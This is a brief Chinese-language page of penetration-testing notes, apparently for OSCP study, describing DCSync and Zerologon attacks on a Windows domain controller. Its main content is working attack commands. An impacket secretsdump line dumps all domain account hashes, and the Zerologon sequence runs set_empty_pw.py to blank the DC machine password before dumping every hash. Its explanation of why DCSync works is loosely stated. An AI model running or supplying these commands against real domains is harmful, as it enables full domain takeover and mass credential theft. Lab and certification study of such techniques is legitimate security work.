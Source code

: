 

### DC同步

一旦获得域控制器的管理员权限，可以把所有账号的hash一次性dump下来

```shell
impacket-secretdump oscp.com/administrator:"Passw0rd"@10.0.2.91
```

原本是DC之间用来同步的机制，但是由于没有验证来源主机，所以只要管理员账号密码提供正确，即可dump下来



### Zerologon

什么信息都收集不了，但是Server 2016没有打补丁的话，有这个漏洞

工具网上搜索`Github ricksense zerologon`

```shell
cd zerologon
python set_empty_pw.py dc1 10.0.2.91

# 参考zerologon的github项目，可以把所有账号的hash 都dump下来
impacket-secretdump -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'oscp.com/dc1@10.0.2.91'
```
